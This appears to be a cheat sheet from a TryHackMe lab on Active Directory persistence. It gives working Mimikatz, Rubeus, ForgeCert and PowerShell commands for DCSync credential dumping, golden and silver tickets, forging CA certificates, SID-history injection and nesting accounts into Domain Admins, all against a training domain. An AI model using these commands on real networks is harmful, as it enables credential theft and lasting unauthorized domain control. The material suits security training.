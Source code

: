 # Persisting Active Directory

### Persistence through Credentials

```batch
lsadump::dcsync /domain:za.tryhackme.loc /user:<Your low-privilege AD Username>
```

DC sync every single account. To do this, we will have to enable logging on Mimikatz:

```batch
log <username>_dcdump.txt 
```

DC Sync all accounts

```batch
mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /all
```

### Persistence through Tickets

Command to generate Golden Ticket

```batch
mimikatz # kerberos::golden /admin:ReallyNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /krbtgt:<NTLM hash of KRBTGT account> /endin:600 /renewmax:10080 /ptt
```

Command to generate SiIver Ticket

```batch
mimikatz # kerberos::golden /admin:StillNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /target:<Hostname of server being targeted> /rc4:<NTLM Hash of machine account of target> /service:cifs /ptt
```

### Persistence through Certificate

Command to view certificates stored on the DC

```batch
crypto::certificates /systemstore:local_machine
```

some of these certificates were set not to allow us to export the key. Without this private key, we would not be able to generate new certificates. Luckily, Mimikatz allows us to patch memory to make these keys exportable

```batch
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # crypto::capi
Local CryptoAPI RSA CSP patched
Local CryptoAPI DSS CSP patched

mimikatz # crypto::cng
"KeyIso" service patched
```

With these services patched, we can use Mimikatz to export the certificates

```batch
crypto::certificates /systemstore:local_machine /export
```

we have the private key and root CA certificate, we can use the SpectorOps [ForgeCert](https://github.com/GhostPack/ForgeCert) tool to forge a Client Authenticate certificate for any user we want

```batch
za\aaron.jones@THMWRK1 C:\Users\aaron.jones>C:\Tools\ForgeCert\ForgeCert.exe --CaCertPath za-THMDC-CA.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Password123 
```

We can use Rubeus to request a TGT using the certificate to verify that the certificate is trusted

<pre class="language-batch"><code class="lang-batch"><strong>Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:vulncert.pfx /password:tryhackme /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:10.200.x.101
</strong></code></pre>

Now we can use Mimikatz to load the TGT and authenticate

```batch
mimikatz # kerberos::ptt administrator.kirbi
```

### Persistence through SID History

To get sid of  Domain Admin group

```markup
PS C:\Users\Administrator.ZA> Get-ADGroup "Domain Admins"
```

To set SID to low Privelaged Account

We could use something like Mimikatz to add SID history. However, the latest version of Mimikatz has a flaw that does not allow it to patch LSASS to update SID history. Hence we need to use something else. In this case, we will use the [DSInternals](https://github.com/MichaelGrafnetter/DSInternals) tools to directly patch the ntds.dit file, the AD database where all information is stored

```markup
PS C:\Users\Administrator.ZA>Stop-Service -Name ntds -force 
PS C:\Users\Administrator.ZA> Add-ADDBSidHistory -SamAccountName 'username of our low-priveleged AD account' -SidHistory 'SID to add to SID History' -DatabasePath C:\Windows\NTDS\ntds.dit 
PS C:\Users\Administrator.ZA>Start-Service -Name ntds 
```

### Persistence through Group Membership

Nesting Our Persistence

Command To Create nested group

```batch
PS C:\Users\Administrator.ZA>New-ADGroup -Path "OU=IT,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 1" -SamAccountName "<username>_nestgroup1" -DisplayName "<username> Nest Group 1" -GroupScope Global -GroupCategory Security
```

&#x20;Command to add group to the Domain Admins group

```batch
PS C:\Users\Administrator.ZA>Add-ADGroupMember -Identity "Domain Admins" -Members "<username>_nestgroup5"
```

Command to add low-privileged AD user to the first group we created

```batch
PS C:\Users\Administrator.ZA>Add-ADGroupMember -Identity "<username>_nestgroup1" -Members "<low privileged username>"
```



